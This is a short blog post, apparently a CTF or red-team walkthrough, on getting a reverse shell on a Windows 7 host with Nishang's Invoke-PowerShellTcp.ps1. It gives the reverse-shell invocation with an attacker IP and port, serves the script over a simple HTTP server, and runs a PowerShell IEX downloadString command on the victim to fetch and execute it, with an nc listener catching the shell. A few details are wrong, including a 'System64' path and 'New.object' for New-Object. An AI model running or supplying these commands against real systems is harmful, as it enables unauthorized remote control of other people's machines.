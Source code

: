 ```yaml
---
layout: post
title:  "Getting Windows 7 Reverse Shell Using Nishang"
date:   2019-02-23 08:12:24 +0530
categories: redteam ctf
---
```


Nishang has a collection of scripts which used in offensive security. In this post I'm using the sctipt "Invoke-PowerShellTcp.ps1" to 
get the reverse shell. 

## Background

I have found a windows machine which has command execution vulnerability. I was able to ping from the windows host to my host. The next step
is getting the reverse shell. For this task I'm using Nishang.

Download the script;

![Here is the link to the script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

copy below line to the end of the file,

```
PS > Invoke-PowerShellTcp -Reverse -IPAddress <Attacker-IP> -Port 4444
```
![Copy below line](https://raw.githubusercontent.com/janithmalinga/janithmalinga.github.io/master/_images/_fli-smtp-shell/windows-nishang-01.png)

Use this command to check powershell directory we use is correct or not,
```
c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe ping 10.10.14.3
```

Capture the traffic using tcpdump to check the victim is pinging or not.

### Windows default binary paths are,

windows 32 bit
```
c:\Windows\System32
c:\Windows\System64
```
Windows 64 bit
```
c:\Windows\SysNative
```

## Final part

Everything is set, Now we are going to run powershell on victim host to download our nishang script and run it,

now run simpleHTTPServer on above script file located path,
![Running simple http server](https://raw.githubusercontent.com/janithmalinga/janithmalinga.github.io/master/_images/_fli-smtp-shell/windows-nishang-02.png)

run below command on victim,
```
c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New.object Net.webClient).downloadString('http://10.10.14.3/Invoke-PowerShellTcp.ps1')
```

Using a nc listner we can catch the reverse shell.
